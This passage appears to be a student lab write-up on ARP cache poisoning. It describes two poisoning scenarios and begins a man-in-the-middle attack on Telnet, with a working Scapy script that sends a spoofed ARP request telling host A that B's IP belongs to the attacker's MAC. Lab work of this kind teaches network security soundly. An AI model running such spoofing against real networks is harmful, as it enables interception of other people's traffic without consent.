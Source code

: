 ###### Scenario 1: B IP in A's Cache

To place B Ip in A cache, we can send a ping packet. Viewing the cache table after, we see that B is mapped to its correct MAC.

![](./screenshots/arp-2.png)

Now, if we send the packet using the python script above, we see that the cache table gets updated, and the MAC address for B's IP is changed to MAC M, that of the attacker.

![](./screenshots/arp-3.png)

###### Scenario 2: B IP not in A's Cache

Sending the packet to A with the ARP cache empty does nothing, and the attack doesn't work. The ARP table remains empty.

> Hence, we see that the attack does succeed in poisoning the ARP cache only if there exists an entry in the table.

> The same issue with forwarding is encountered after.

---

## Task 2: MITM Attack on Telnet using ARP Cache Poisoning

### Step 1: Poison the Cache of A and B

In order to become the man in the middle, we need to convince A that the attacker is B, and convince B that the attacker is A. This can be done using cache poisoning, using the ARP request method, since it doesn't require that the cache have an entry beforehand.

> Sending two packets:

1. Packet sent to A:
```python
from scapy.all import *

A_IP = "10.9.0.5"
B_IP = "10.9.0.6"
M_IP = "10.9.0.105"

A_MAC = "02:42:0a:09:00:05"
B_MAC = "02:42:0a:09:00:06"
M_MAC = "02:42:0a:09:00:69"

# Ethernet layer. Sending a packet from M to A.
E = Ether(src=M_MAC, dst= A_MAC)

# ARP layer. Sending a packet from M to A with B IP AND M MAC.
A = ARP(hwsrc=M_MAC, psrc=B_IP, hwdst=A_MAC, pdst=A_IP, op=1)

pkt = E/A
sendp(pkt, iface="eth0")
```
